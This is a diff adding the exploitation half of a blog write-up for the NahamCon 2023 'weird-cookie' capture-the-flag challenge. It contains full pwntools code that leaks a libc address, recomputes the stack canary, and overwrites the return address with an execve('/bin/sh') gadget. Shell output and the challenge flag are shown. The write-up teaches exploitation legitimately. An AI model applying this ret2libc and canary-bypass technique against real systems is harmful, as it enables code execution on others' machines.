

completed weird-cookie writeup

Changed region(s): [[0.0, 0.7009, 0.6837, 0.8972], [0.3108, 0.5607, 0.8391, 0.6449]]

diff --git a/_posts/2023-06-21-nahamcon-ctf-2023-weird-cookie.md b/_posts/2023-06-21-nahamcon-ctf-2023-weird-cookie.md
@@ -322,3 +322,296 @@ Since with `20 characters` we do not overwrite the canary, the comparison is don
 
 Let's continue to the ret breakpoint.
 
+![Canary Validation Registers](ret-reg.png)
+![Canary Validation Stack](ret-stack.png)
+
+> the `rip` (Instruction Pointer Register in x86_64) value after the `ret` instruction is executed will be the value at the top of the stack, pointed by `rsp` (Stack Pointer Register)
+{: .prompt-info }
+
+The return address can also be overwritten, so if we take the program to the final execution, we can control rip and redirect the execution where we want.
+
+## Attack Plan
+
+Let's recap with all the information we have:
+
+1. in the first input we enter just enough bytes to eliminate the terminator nullbyte to be able to leak the contents of the memory that is in contiguous memory regions
+2. in the second input we send junk the first 40 bytes until we reach the position of the canary, we set the canary (either by leak or by re-crafting it), another 8 bytes of junk and finally the memory address where we want to redirect the execution of the program.
+
+Since the `ASLR` is enabled and in each execution the addresses change, the most important thing is to leak the address that we have seen before that contained `__libc_start_main`, since it is a `libc` function, so if we leak it out, we can calculate the `base address` of libc.
+
+You can take a closer look at what a ret2libc attack is in this post: [Return-to-libc / ret2libc](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc)
+
+## Exploit
+
+### Setup
+
+When we used `pwninit` to adjust the binary, a file called `solve.py` should have been created too, you could use it as the base for the exploit. I will start from a blank python script so you can see the full process.
+
+Let's start by creating a file called `exploit.py` with the following content:
+
+```python
+#!/usr/bin/env python3
+
+from pwn import *
+
+exe = ELF("./weird_cookie_patched", checksec=False)
+libc = ELF("./libc-2.27.so", checksec=False)
+
+p = process([exe.path])
+```
+
+- `exe = ELF("./weird_cookie_patched")`: This line is creating an ELF object that represents the binary file `weird_cookie_patched`. The ELF class in pwntools provides a lot of useful methods for analyzing and manipulating ELF files. This object will give you access to information about the binary file, like its headers, sections, symbols, etc.
+
+- `libc = ELF("./libc-2.27.so")`: This line is creating another ELF object, this time for the libc-2.27.so file. This file is a shared library (the standard C library for Unix-like systems), and this object will give you access to the functions and other symbols in the library.
+
+- `p = process([exe.path])`: This line is starting a new process running the `weird_cookie_patched` binary, and creating a Process object that represents this process. This object allows you to interact with the process: you can send it input, receive its output, attach a debugger to it, etc.
+
+Now that we have the skeleton of the exploit, let's start interacting with it.
+
+### Leak Address
+
+```python
+[.. code above..]
+
+p.recvuntil(b"Do you think you can overflow me?")
+p.sendline(b"A" * 55)     # 56 chars - 1 for new line
+
+print(p.recvline())
+print(p.recvline())
+print(p.recvline())
+```
+
+First we wait until the program asks for input. Then we send `56 characters` (55 + 1 of the line break), just to get to the position where the address of `__libc_start_main` is stored.
+
+You may wonder why I have not made a leak of the canary. Basically because we don't need it, since it is composed by a hardcoded variable xored with the printf address, we can always create it when we need it, since we have both.
+
+After sending the input, we receive three lines, in a second you will see why. We run the above exploit using `python3 exploit.py`.
+
+```bash
+$ python exploit.py                              
+[+] Starting local process '/home/kali/ctf/nahamcon2023/weird-cookie/weird_cookie_patched': pid 274218
+b'\n'
+b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\n'
+b'\x87\x1cbp8\x7f\n'
+[*] Stopped process '/home/kali/ctf/nahamcon2023/weird-cookie/weird_cookie_patched' (pid 274218)
+```
+{: .nolineno }
+
+We can ignore the result of the first two `recvline()` since it only shows our input, what we want is the third output, which is the one with the address of `__libc_start_main`.
+Well, it is not exactly `__libc_start_main`, you have to add the padding that IDA has shown us before, which can be seen here:
+
+```bash
+00007FFF481E6B48  00007FAD97021C87  libc_2.27.so:__libc_start_main+E7
+```
+{: .nolineno }
+
+Okay, to continue where we left off, we need to collect the address that you see in the output and pass it to a format that we can work with:
+
+```python
+[.. code above..]
+
+p.recvline()
+p.recvline()
+
+leak = u64(p.recv(6).ljust(8, b"\x00"))
+info("Leaked address :: " + hex(leak))
+```
+
+We remove the unnecessary prints, read the output with the address and adjust it to the size of a 64bit address. If we re-launch the exploit:
+
+```bash
+$ python exploit.py
+[+] Starting local process '/home/kali/ctf/nahamcon2023/weird-cookie/weird_cookie_patched': pid 279878
+[*] Leaked address :: 0x7f62d9e21c87
+[*] Stopped process '/home/kali/ctf/nahamcon2023/weird-cookie/weird_cookie_patched' (pid 279878)
+```
+{: .nolineno }
+
+Perfect! We now have the address in a format we can work with.
+
+### Calculate LIBC base
+
+The next step is to calculate the libc base, for this, we have to do the following formula: `libc_base = leak - __libc_start_main offset - 0xE7`
+
+```python
+[.. code above..]
+
+libc_base = leak - libc.symbols.__libc_start_main - 0xE7
+info("LIBC base :: " + hex(libc_base))
+
+p.recvuntil(b"Are you sure you overflowed it right? Try again.")
+```
+
+Once calculated, we prepare to send the next input, for which we wait one more time until we are asked to do so.
+
+### Set the canary back
+
+If we remember from the planning, what we have to do is to put `40 bytes` of junk, the `canary`, `8 bytes` of junk and `8 bytes` with the new address that will overwrite rip.
+
+```python
+[.. code above..]
+
+payload = b"A" * 40
+payload += p64(0x123456789ABCDEF1 ^ (libc_base + libc.symbols.printf))
+payload += b"A" * 8
+payload += b"B" * 8       # this will take control of rip
+
+p.sendline(payload)
+
+print(p.recv())
+print(p.recv())
+```
+
+We calculate the canary as the program does and put it in the correct format. For the moment I have changed by `B's` the part that overwrites `rip`, since we still have to see what we do in this part.
+If we run it again, we should see something like the following:
+
+```bash
+$ python exploit.py
+[+] Starting local process '/home/kali/ctf/nahamcon2023/weird-cookie/weird_cookie_patched': pid 288253
+[*] LIBC base :: 0x7f5f23800000
+b'\n'
+Traceback (most recent call last):
+  File "/home/kali/ctf/nahamcon2023/weird-cookie/exploit.py", line 30, in <module>
+    print(p.recv())
+          ^^^^^^^^
+  File "/home/kali/.local/lib/python3.11/site-packages/pwnlib/tubes/tube.py", line 105, in recv
+    return self._recv(numb, timeout) or b''
+           ^^^^^^^^^^^^^^^^^^^^^^^^^
+  File "/home/kali/.local/lib/python3.11/site-packages/pwnlib/tubes/tube.py", line 175, in _recv
+    if not self.buffer and not self._fillbuffer(timeout):
+                               ^^^^^^^^^^^^^^^^^^^^^^^^^
+  File "/home/kali/.local/lib/python3.11/site-packages/pwnlib/tubes/tube.py", line 154, in _fillbuffer
+    data = self.recv_raw(self.buffer.get_fill_size())
+           ^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
+  File "/home/kali/.local/lib/python3.11/site-packages/pwnlib/tubes/process.py", line 688, in recv_raw
+    raise EOFError
+EOFError
+[*] Process '/home/kali/ctf/nahamcon2023/weird-cookie/weird_cookie_patched' stopped with exit code -11 (SIGSEGV) (pid 288253)
+```
+{: .nolineno }
+
+We can see the exit status being `SIGSEGV`, this occurs because `0xBBBBBBBBBBBB` is not a valid address, and the application crashes.
+We now know that it has been executed correctly and that we have overwritten `rip`, the program dont know how to continue so it crashed.
+
+The first thing is to decide what we want the program to do now, the normal thing is to look for gadgets that allow us to call `system("/bin/sh")`, I leave you the link to another post of my blog where you can see it: [HackTheBox - Retired](https://v3he.io/posts/hackthebox-retired/#shell-as-www-data)
+
+### Searching the gadget
+
+In this case we are going to automate even more and we are going to use [one_gadget](https://github.com/david942j/one_gadget). Directly with a single gadget and without having to chain, we are going to get to the same point, execute a `/bin/sh` on the remote machine.
+
+```bash
+$ one_gadget libc-2.27.so
+0x4f2a5 execve("/bin/sh", rsp+0x40, environ)
+constraints:
+  rsp & 0xf == 0
+  rcx == NULL
+
+0x4f302 execve("/bin/sh", rsp+0x40, environ)
+constraints:
+  [rsp+0x40] == NULL
+
+0x10a2fc execve("/bin/sh", rsp+0x70, environ)
+constraints:
+  [rsp+0x70] == NULL
+```
+{: .nolineno }
+
+We have found three possible candidates, each one has its conditions, so it is a question of testing them or adjusting them to fit, since for example the second one has as a constraint that `rsp+0x40 is NULL`, normally we control the buffer and if it points to it, we can make this condition be fulfilled, although in this case it will not be necessary. I will try with the third one.
+
+### RCE
+
+```python
+[.. code above..]
+
+payload = b"A" * 40
+payload += p64(0x123456789ABCDEF1 ^ (libc_base + libc.symbols.printf))
+payload += b"A" * 8
+payload += p64(libc_base + 0x10a2fc)      # our gadget
+
+p.sendline(payload)
+
+p.interactive()
+```
+
+```bash
+$ python exploit.py 
+[+] Starting local process '/home/kali/ctf/nahamcon2023/weird-cookie/weird_cookie_patched': pid 297525
+[*] LIBC base :: 0x7fa5fca00000
+[*] Switching to interactive mode
+
+$ id
+uid=1000(kali) gid=1000(kali) groups=1000(kali),4(adm),20(dialout),24(cdrom),25(floppy),27(sudo),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev),111(bluetooth),114(scanner),137(wireshark),140(kaboxer),993(docker)
+```
+{: .nolineno }
+
+Perfect! our payload has been executed successfully and thanks to `interactive()`, as its own name indicates, it changes us to interactive mode since we have successfully executed the shell.
+
+```python
+[.. code above..]
+
+payload = b"A" * 40
+payload += p64(0x123456789ABCDEF1 ^ (libc_base + libc.symbols.printf))
+payload += b"A" * 8
+payload += p64(libc_base + 0x10a2fc)      # our gadget
+
+p.sendline(payload)
+
+p.interactive()
+```
+
+Change the `process` line to `remote` with the address of the remote challenge and dump the flag!
+
+```python
+#p = process([exe.path])
+p = remote('challenge.nahamcon.com', 31362)
+```
+
+```bash
+$ python exploit.py
+[+] Opening connection to challenge.nahamcon.com on port 31362: Done
+[*] LIBC base :: 0x7f1fd719b000
+[*] Switching to interactive mode
+
+$ cat /flag.txt
+flag{e87923d7cd36a8580d0cf78656d457c6}
+```
+{: .nolineno }
+
+### Complete Exploit Source
+
+```python
+#!/usr/bin/env python3
+
+from pwn import *
+
+exe = ELF("./weird_cookie_patched", checksec=False)
+libc = ELF("./libc-2.27.so", checksec=False)
+
+p = process([exe.path])
+
+p.recvuntil(b"Do you think you can overflow me?")
+p.sendline(b"A" * 55)                                                     # padding until __libc_start_main address
+
+p.recvline()
+p.recvline()
+
+leak = u64(p.recv(6).ljust(8, b"\x00"))
+libc_base = leak - libc.symbols.__libc_start_main - 0xE7
+
+p.recvuntil(b"Are you sure you overflowed it right? Try again.")
+
+payload = b"A" * 40                                                       # padding until canary position
+payload += p64(0x123456789ABCDEF1 ^ (libc_base + libc.symbols.printf))    # canary calculation
+payload += b"A" * 8                                                       # padding until rip overwrite
+payload += p64(libc_base + 0x10a2fc)                                      # gadget execve("/bin/sh")
+
+p.sendline(payload)
+
+p.interactive()
+```
+
+## Bonus Content
+
+This is what it looks like if we open the binary with ghidra and see the decompiled code.
+
+![Ghidra Code](ghidra.png)
